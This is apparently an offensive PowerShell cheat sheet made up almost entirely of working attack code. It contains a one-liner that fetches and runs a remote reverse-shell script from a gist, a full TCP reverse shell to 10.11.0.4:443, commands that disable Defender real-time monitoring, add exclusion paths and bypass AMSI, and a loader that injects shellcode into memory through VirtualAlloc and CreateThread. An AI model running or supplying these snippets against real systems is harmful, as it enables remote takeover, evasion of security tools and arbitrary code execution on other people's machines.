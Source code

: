 ```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```

## Reverse shell

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
	$sendback = (iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush();
}
$client.Close();
```

---

# Antivirus

```powershell
#Check status
Get-MpComputerStatus
#Disable
Set-MpPreference -DisableRealtimeMonitoring $true
#Set exclusion path
Add-MpPreference -ExclusionPath "C:\users\public\documents\magichk"
#Disable AMSI
"[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)"
```

---

# In-memory Injection

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint
flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];

[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```